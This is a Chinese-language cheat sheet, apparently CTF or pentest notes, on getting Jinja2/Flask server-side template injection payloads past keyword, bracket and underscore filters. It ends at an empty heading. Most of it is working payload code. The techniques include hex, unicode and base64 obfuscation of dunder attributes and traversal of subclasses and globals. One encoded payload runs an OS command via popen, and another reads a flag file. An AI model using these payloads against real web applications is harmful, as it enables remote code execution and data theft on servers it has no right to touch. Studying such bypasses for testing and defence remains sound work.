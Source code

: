 ## 过滤关键字

绕过对双引号里关键字的限制，比如{{''.__class__}}，如果过滤_或class关键字

1. 16进制编码  
    {{''.__class__}}等价于{{''["__class__"]}}，所以可以将其中关键字编码或者部分编码，如

```python
{{''["\x5f\x5f\x63las\x73\x5f\x5f"]}}
```

2. 使用unicode编码（适用于Flask）

```python
{{''["\u005f\u005fclas\u0073\u005f\u005f"]}}
```

3. 使用字符串拼接、引号绕过，在Jinjia2中加号可以省略

```python
{{''["__clas"+"s__"]}}
{{''["__clas""s__"]}}
```

4. 使用base64编码（适用于Python2）

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3Blbigid2hvYW1pIikucmVhZCgp'.decode('base64'))}}
```

5. 使用join()函数绕过，比如过滤了flag关键字

```python
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
```

## 过滤中括号

1. 使用__getitem__函数即可，它的作用是从__getitem__(i)等价于[i]获取第i个元素，因此可以替换，如

```python
{{''.__class__.__mro__.__getitem__(1)}}
```

2. 使用pop函数也可以

```python
{{''.__class__.__mro__.__getitem__(1).__subclasses__().pop(80)}}
```

3. 使用.来访问

```python
{{''.__class__.__mro__.__getitem__(1).__subclasses__()[80].__init__.__globals__.__builtins__}}
```

## 过滤下划线
